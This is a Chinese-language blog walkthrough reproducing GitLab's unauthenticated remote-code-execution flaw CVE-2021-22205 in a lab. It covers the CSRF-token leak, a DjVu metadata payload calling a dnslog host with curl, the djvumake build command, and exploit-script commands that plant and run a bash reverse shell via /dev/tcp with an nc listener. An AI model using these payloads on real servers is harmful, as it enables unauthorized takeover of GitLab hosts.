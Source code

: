 ```yaml
---
title: GitLab 未授权RCE(CVE-2021-22205)  --花无名   
layout: mypost
categories: [漏洞复现]
---
```


# 1.漏洞介绍

这个漏洞形成未授权RCE主要要两个原因：1.gitlab的用户登录界面的CSRF-token泄露，攻击者可以直接获取使用至系统文件上传接口，导致原本需要登录后才能实现RCE的漏洞风险大大提高了

2.第二个原因是gitlab使用的exiftool，接收用户上传图片时，处理不当，将用户上传的无法解析的文件进行执行，从而导致了可RCE（CVE-2021-22204），[详情见vakzz大佬原文](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)

# 2.未授权漏洞复现：

`影响范围：`

`11.9 <=  GitLab（CE/EE）< 13.8.8
13.9 <=  GitLab（CE/EE）< 13.9.6
13.10 <= GitLab（CE/EE）< 13.10.3`

过程：

直接访问接口 http://xxxx.com/users/sign_in

在返回包中找到csrf-token，将值记录![微信截图_20211112140906](微信截图_20211112140906.png)

构造数据包，上传文件

![tihuan](tihuan.png)

即可未授权上传文件至目标服务器

# 文件上传RCE

根据上述漏洞原理可知，我们需要构造一个非常规的图片文件，从而使系统解析错误并执行文件内容

此处需要上传`DjVu`格式图片（即Exp）

![attfile](attfile.png)

DjVu格式图片需要下载安装工具DjVuLibre，地址：http://djvu.sourceforge.net/

木马文本内容

`(metadata (Copyright "\ " . qx{curl xxxx.dnslog.cn} . \ " b ") )`

使用命令生成rce.jpg

`djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg`

之后上传至系统服务器即可

![image-20211112143405506](image-20211112143405506.png)

至此即可查看dnslog是否有成功访问记录了

# 脚本复现及漏洞利用

这里使用脚本为：https://github.com/Al1ex/CVE-2021-22205 详细工具介绍可直接至github查看。

NC反弹shell

构造语句，将命令写入到服务器，执行写入的文件，即可成功反弹shell

` python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "echo 'bash -i >& /dev/tcp/xx.xx.x.x/6666 0>&1' > /tmp/1.sh"`

![fan1](fan1.png)

可看到文件已成功写到靶机上

![ubantu](ubantu.png)

`python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "chmod 7777 /tmp/1.sh"`

![fan2](fan2.png)

`nc -lvp 6666`

`python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "/bin/bash /tmp/1.sh"`

![image-20211112144237872](image-20211112144237872.png)

![shell](shell.png)



参考：https://github.com/Al1ex/CVE-2021-22205     https://www.freebuf.com/articles/web/303375.html